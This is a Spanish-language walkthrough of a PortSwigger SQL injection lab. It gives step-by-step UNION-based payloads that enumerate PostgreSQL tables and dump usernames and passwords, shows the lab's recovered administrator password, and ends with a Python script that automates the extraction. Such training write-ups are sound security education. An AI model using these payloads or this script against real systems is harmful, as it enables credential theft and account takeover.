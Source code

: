 ```yaml
---
title: "05 SQL injection UNION attack, retrieving data from other tables"
collection: publications
category: portswigger
permalink: /publications/05_SQL injection UNION attack, retrieving data from other tables
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que recupera los nombres de usuario y las contraseñas de los usuarios de la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection UNION attack, retrieving data from other tables'
---
```


![logo]({{site.url}}/images/SQLi/sqli-5/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-5/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, realice un ataque de inyección SQL UNION que recupere todos los nombres de usuario y contraseñas, y utilice la información para iniciar sesión como usuario `administrator`.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-5/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

![Order by]({{site.url}}/images/SQLi/sqli-5/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL--
' UNION SELECT NULL, 'A'--
' UNION SELECT 'A', 'A'--
```

En este caso ambas columnas reciben tipo string

![String]({{site.url}}/images/SQLi/sqli-5/tipo string.png)

## Obtener que tipo de Base de dato es

Es una BD Posgres SQL

```javascript
' UNION SELECT version(), null--
```

![Base de datos]({{site.url}}/images/SQLi/sqli-5/BD.png)

## Obtener el nombre de las tablas

Ya que conocemos el tipo de BD, debemos listar el nombre de las tablas.

```javascript
' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema='public'--
```

![Tablas]({{site.url}}/images/SQLi/sqli-5/tablas.png)

## Listamos las columnas

```javascript
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'--
```

![Columnas de la tabla]({{site.url}}/images/SQLi/sqli-5/columbas de la tabla.png)

## Listar username y password
Ya que conocemos las columnas de la tabla, debemos listarla

```javascript
' UNION SELECT username, password FROM users--
```

![Usuarios Passwords]({{site.url}}/images/SQLi/sqli-5/listado usuario y password.png)

## Procedemos a hacer el login

```
administrator
4hve3wc018z7mnlll440
```

![login]({{site.url}}/images/SQLi/sqli-5/login.png)

## Solucionado

Solventado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-5/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_users_table(url):
    username = 'administrator'
    path = '/filter?category=Gifts'
    sql_payload = "' UNION select username, password from users--"
    r = requests.get(url + path + sql_payload,  verify=False, proxies=proxies)
    res = r.text
    if "administrator" in res:
        print("[+] Found the administrator password.")
        soup = BeautifulSoup(r.text, 'html.parser')
        admin_password = soup.body.find(text="administrator").parent.findNext('td').contents[0]
        print("[+] The administrator password is '%s'" % admin_password)
        return True
    return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("[+] Dumping the list of usernames and passwords...")
    if not exploit_sqli_users_table(url):
        print("[-] Did not find an administrator password.")
```